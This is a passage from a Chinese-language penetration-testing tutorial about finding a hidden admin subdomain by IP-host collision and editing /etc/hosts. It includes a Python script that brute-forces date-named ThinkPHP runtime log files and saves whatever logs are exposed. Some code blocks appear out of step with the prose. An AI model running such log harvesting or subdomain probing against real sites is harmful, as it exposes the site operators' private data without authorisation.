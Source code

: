 所以我们采用第三种方式：ip-host 碰撞查找子域名

Host\_Ip 碰撞工具：https://github.com/fofapro/Hosts\_scan

host.txt 里填写的是要碰撞的子域名：webhack123.com，admin... 可以自行添加字典！

ip.txt 里填写的是目标的 ip：192.168.2.27

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiar6jblnYsMmpZBNdBOhLu9ricPkCShvosLprsCzsc7X7GhfzlniaN4LMw/640?wx_fmt=png)

```
vi /etc/hosts
```

运行完后，能访问到的子域名会在本地的 host\_ok.txt 保存：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaWnqwCdSLZygHI22mWNZErLGHX08pxmN3VYx9gnfg1pVcS7A31SkN9Q/640?wx_fmt=png)

可以看到上图，只有 admin.webhack123.com 的子域名是 200 状态码，那么我们修改一下我们的 hosts 文件才可以访问：

```
#coding:utf-8
import requests
url ="http://www.webhack123.com/App/Runtime/Logs"
def add\_urls(patch,y):
    urls=\[\]
    for i in range(1,7):
        for j in range(1,32):
            if i<10:
                if j<10:
                    urls.append(patch+"/%s\_0%s\_0%s.log" %(y,i,j))
                else:
                    urls.append(patch+"/%s\_0%s\_%s.log" %(y,i,j))
            else:
                if j<10:
                    urls.append(patch+"/%s\_%s\_0%s.log" %(y,i,j))
                else:
                    urls.append(patch+"/%s\_%s\_%s.log" %(y,i,j))
    return urls


urls = add\_urls(url,"20")

for i in urls:
    req=requests.get(i)
    if req.status\_code==200:
        print(i)
        html = req.text
        with open("webhack123.txt",'a',encoding='utf-8') as f:
            f.write(html)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia29rPXKGwqbIfC3UicZIHNTWjblPPicxqGHFCLiaXHXVEuY9BVLAwXaYRA/640?wx_fmt=png)

这个时候就能访问：admin.webhack123.com
